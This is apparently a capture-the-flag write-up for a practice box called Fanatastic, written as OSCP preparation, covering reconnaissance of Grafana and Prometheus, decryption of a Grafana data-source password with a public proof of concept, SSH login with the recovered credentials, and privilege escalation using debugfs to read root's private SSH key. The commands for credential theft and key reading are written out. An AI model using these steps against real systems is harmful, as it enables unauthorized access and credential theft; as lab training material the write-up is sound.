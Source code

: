 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Fanatastic
---
```


**Start 11:00 01-02-2025**

---
```
Scope:
192.168.140.181
```
## Recon

### Nmap

```bash
sudo nmap -sC -sV -vvvv -Pn -p- 192.168.140.181 -sT --min-rate=5000 -T5

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
3000/tcp open  http    syn-ack Grafana http
| http-robots.txt: 1 disallowed entry 
|_/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: F69DADBD5936359AF76AAB84559E849F
| http-title: Grafana
|_Requested resource was /login
|_http-trane-info: Problem with XML parsing of /evox/about
9090/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-title: Prometheus Time Series Collection and Processing Server
|_Requested resource was /graph
| http-methods: 
|_  Supported Methods: GET OPTIONS
|_http-favicon: Unknown favicon MD5: 5EE43B38986A144D6B5022EA8C8F748F
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![](../../../assets/25872b21a4af82269bf8cbc921763e61.png)

![](../../../assets/c21d82fe9046e0be9dca3dcd766bc878.png)

Let's see if it works:

![](../../../assets/219e2e8f45761e2ead0ac0b453780305.png)

It does!!

![](../../../assets/e50687364d6419dfbf7ba33950e424cf.png)


### SQLite3

![](../../../assets/ece60399a198d7d5aa389be7ed49ecba.png)

From these tables this one seemed most interesting:

```SQL
SELECT * FROM data_source;
[{"id":1,"org_id":1,"version":1,"type":"prometheus","name":"Prometheus","access":"server","url":"http://localhost:9090","password":"","user":"","database":"","basic_auth":0,"basic_auth_user":"sysadmin","basic_auth_password":"","is_default":0,"json_data":"{}","created":"2022-02-04 09:19:59","updated":"2022-02-04 09:19:59","with_credentials":0,"secure_json_data":"{\"basicAuthPassword\":\"anBneWFNQ2z+IDGhz3a7wxaqjimuglSXTeMvhbvsveZwVzreNJSw+hsV4w==\"}","read_only":0,"uid":"HkdQ8Ganz"}]
```

Note the `basicAuthPassword` here, let's write it down.

```
anBneWFNQ2z+IDGhz3a7wxaqjimuglSXTeMvhbvsveZwVzreNJSw+hsV4w==
```


### Proof of Concept

We can now utilize the [following PoC](https://github.com/jas502n/Grafana-CVE-2021-43798/blob/main/AESDecrypt.go):

![](../../../assets/7a66e62ec6d16643d65fb0f4f6d6a2a3.png)

We just need to change this part with our own password.

![](../../../assets/8dc81f33ae21cb4480cbca469f63124c.png)

![](../../../assets/d925ae990c365b376de8ff7748a21beb.png)


### Troubleshooting

Once we try to run it we get this error that we need to solve:

![](../../../assets/7b6499dd0dad4363c54c2e445b86bd7c.png)

To get this properly working we need to use the following commands:

```bash
# Enable Go modules
export GO111MODULE=on

# Initiliaze Go module in project directory
go mod init Fanatastic

# Verify dependencies
go mod tidy

# Get required package
go get golang.org/x/crypto/pbkdf2
```

And afterwards we can run our PoC:

![](../../../assets/1399dab165a0133734b5ac405cda7ff8.png)

```bash
sysadmin
SuperSecureP@ssw0rd
```

We can now log into SSH.


## Foothold

![](../../../assets/8a213a35dea467d88ebb7587ee6ef5b2.png)

I then upgrade the shell using `script -c bash /dev/null`. 


### local.txt

![](../../../assets/4d3e39fb734bf54673597015479246a5.png)


## Privilege Escalation

![](../../../assets/6c326094b02be6a0fc2bfc3118476c25.png)

We can't run `sudo -l`, let's check binaries.

![](../../../assets/80fd5e922881caa4f2008f583ac8fcb7.png)

Upon downloading over and running linpeas I found this:

![](../../../assets/0d4c9ba834d62d606309816b167d0e04.png)

I looked it up on Google:

![](../../../assets/7c81b4c74eb10254502f83250330b3d6.png)

Following the article we check what partition the `/` directory is mounted on.

![](../../../assets/3113a04bd58613c82937f3756069a181.png)

Then using `debugfs /dev/sda2` we go ahead and read the contents of `root`'s `/.ssh/id_rsa` file.

```bash
debugfs /dev/sda2
mkdir test
cat /root/.ssh/id_rsa
```

![](../../../assets/0f1e042f00685c38f4c8e323e674b35b.png)

Now we copy the contents on our Kali, use `chmod 600` and log into `ssh` as *root*.

![](../../../assets/a09b34101219e9cf71c545e39ce8d127.png)

![](../../../assets/d020269c52274c9fb0367d2180f57a64.png)

Awesome, let's get the flag.


### proof.txt

![](../../../assets/dd693cc5fc636f4b0a05ffdb64fd8290.png)

---

**Finished 11:25 01-02-2025**

[^Links]:  [[OSCP Prep]]

